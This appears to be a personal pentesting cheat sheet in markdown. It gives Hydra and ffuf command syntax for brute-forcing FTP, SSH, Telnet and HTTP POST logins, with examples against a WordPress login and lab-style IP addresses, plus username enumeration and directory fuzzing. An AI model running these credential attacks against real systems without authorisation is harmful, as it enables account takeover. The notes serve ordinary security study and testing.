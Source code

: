 # Bruteforce Tools

## Hydra
> Tool to bruteforce logins

### Syntax 
-L list of users, lowercase for single user
-P list of passwords, lowercase for single password

### FTP SSH TELNET
`hydra -t 4 -l <username> -P <password path>-vV <host> <protocol>`

### POST Request

**Syntax**
`hydra -L <user list> -P <password list> <host/ip> http-post-form "/<login directory>:<data sent on post request>:F=<incorrect login error>”`

**Example**
`hydra -L users.txt -P passwords.txt wordy http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1:F=ERROR”
`
## FFUF

### Bruteforce login creds
**Username Bruteforce**
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.33/customers/signup -mr "username already exists"`

**Username and Password Bruteforce**
`ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.33/customers/login -fc 200`

### Directory Bruteforce
`ffuf -w /path/to/wordlist -u https://target/FUZZ`
